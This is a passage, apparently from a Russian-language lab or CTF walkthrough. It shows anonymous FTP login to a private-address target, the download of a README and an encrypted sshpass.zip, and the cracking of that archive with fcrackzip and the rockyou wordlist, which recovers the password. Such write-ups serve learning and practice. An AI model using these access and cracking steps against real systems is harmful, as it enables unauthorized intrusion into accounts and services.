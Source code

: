 >Входим как anonymous:

```html
┌──(root💀kali)-[/home/user]
└─# ftp 192.168.0.188
Connected to 192.168.0.188.
220 (vsFTPd 3.0.3)
Name (192.168.0.188:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 ftp      ftp           306 Oct 06  2018 README.txt
-rwxrwxrwx    1 ftp      ftp           226 Oct 06  2018 sshpass.zip
226 Directory send OK.
ftp> get README.txt
local: README.txt remote: README.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for README.txt (306 bytes).
226 Transfer complete.
306 bytes received in 0.00 secs (142.7750 kB/s)
ftp> get sshpass.zip
local: sshpass.zip remote: sshpass.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for sshpass.zip (226 bytes).
226 Transfer complete.
226 bytes received in 0.00 secs (82.2905 kB/s)
```

>Скачиваем 2 файла:

```html
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

>А архив брутим:

```html 
┌──(user@kali)-[~]
└─$ fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt sshpass.zip
found file "sshpass.txt", (size cp/uc	38/	26, flags 9, chk 45e9)
checking pw budayday

PASSWORD FOUND!!!!: pw == seahorse!
```
